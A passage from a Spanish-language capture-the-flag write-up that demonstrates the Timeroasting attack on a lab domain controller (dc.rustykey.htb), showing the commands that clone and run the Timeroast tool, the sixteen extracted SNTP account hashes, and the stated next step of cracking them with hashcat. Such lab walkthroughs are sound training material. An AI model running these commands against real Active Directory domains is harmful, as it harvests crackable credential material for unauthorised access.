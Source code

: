 ```
```

## Timeroasting

Veremos algunos interesantes, pero de momento por conocimiento los dejaremos ahi sabiendo que son esos usuarios los que hay en el dominio, ahora vamos a poner en practica la tecnica `Timeroasting`.

URL = [GitHub herramienta timeroast.py](https://github.com/SecuraBV/Timeroast)

```shell
git clone https://github.com/SecuraBV/Timeroast.git
cd Timeroast/
python3 timeroast.py dc.rustykey.htb
```

Info:

```
1000:$sntp-ms$00e753b5ef8d570096df028e1d732d4c$1c0111e900000000000a3c134c4f434cec9a0bb86857fd17e1b8428bffbfcd0aec9a5aeb9088fbbcec9a5aeb9089316c
1103:$sntp-ms$db045a296f31de58252dbe964fd77745$1c0111e900000000000a3c134c4f434cec9a0bb86aeec7c9e1b8428bffbfcd0aec9a5aec3b0f6e32ec9a5aec3b0f99d0
1104:$sntp-ms$abebd502023e903ecc480702e1f07670$1c0111e900000000000a3c134c4f434cec9a0bb8689a5805e1b8428bffbfcd0aec9a5aec3c920550ec9a5aec3c9235f8
1105:$sntp-ms$4807df7ade772dd37bc9e808f98e058b$1c0111e900000000000a3c134c4f434cec9a0bb86a6f8924e1b8428bffbfcd0aec9a5aec3e673167ec9a5aec3e6768c4
1106:$sntp-ms$5185accae5ec60a304186d895746d6c4$1c0111e900000000000a3c134c4f434cec9a0bb868189bd8e1b8428bffbfcd0aec9a5aec4028d0d9ec9a5aec40291aab
1107:$sntp-ms$9c2d56ee66956f9efb2f396ff122b92d$1c0111e900000000000a3c134c4f434cec9a0bb869a06713e1b8428bffbfcd0aec9a5aec41b0a980ec9a5aec41b0d6cd
1118:$sntp-ms$5d4d7479161f58dec8e96d5dda55a2ff$1c0111e900000000000a3c134c4f434cec9a0bb8682b536ae1b8428bffbfcd0aec9a5aec505c5c21ec9a5aec505c8465
1119:$sntp-ms$6caab31558a530400ff88a58c6a9fe0c$1c0111e900000000000a3c134c4f434cec9a0bb869e9aa53e1b8428bffbfcd0aec9a5aec521a9b8cec9a5aec521ae3b1
1120:$sntp-ms$e3052af7c52ed0c599370da866331b78$1c0111e900000000000a3c134c4f434cec9a0bb86b6c24ece1b8428bffbfcd0aec9a5aec539d2036ec9a5aec539d6352
1121:$sntp-ms$732f0346d2a229525a05f3a63c45fa77$1c0111e900000000000a3c134c4f434cec9a0bb8697219f8e1b8428bffbfcd0aec9a5aec557a1214ec9a5aec557a588b
1122:$sntp-ms$478ffe349593b4032fe328b31a52a34e$1c0111e900000000000a3c134c4f434cec9a0bb86b0b5096e1b8428bffbfcd0aec9a5aec57135115ec9a5aec57138f28
1123:$sntp-ms$be794ecadcf15aff80abb49dd3f6421b$1c0111e900000000000a3c134c4f434cec9a0bb868601bc9e1b8428bffbfcd0aec9a5aec5880c8e8ec9a5aec5880ea76
1124:$sntp-ms$d08d5b92cc4203de2960b87db1734b0a$1c0111e900000000000a3c134c4f434cec9a0bb869e4c1b6e1b8428bffbfcd0aec9a5aec5a055fbbec9a5aec5a05956b
1125:$sntp-ms$96d19e3d81b823ba8856ef4aaff4802b$1c0111e900000000000a3c134c4f434cec9a0bb869e716fae1b8428bffbfcd0aec9a5aec5a07bf11ec9a5aec5a07e3fa
1126:$sntp-ms$c5f944230b38586b42af4b28e03b6cb3$1c0111e900000000000a3c134c4f434cec9a0bb86b6adc16e1b8428bffbfcd0aec9a5aec5b8b7366ec9a5aec5b8bae1e
1127:$sntp-ms$d1093924f083dd86ae2afc8360abc1cc$1c0111e900000000000a3c134c4f434cec9a0bb869202b18e1b8428bffbfcd0aec9a5aec5d17da11ec9a5aec5d18090b
```

Veremos que nos ha sacado unos cuantos `hashes` de forma correcta, por lo que vamos a probar a ver cuales podremos `crackear` con `hashcat` en la version `BETA`, de esta forma:
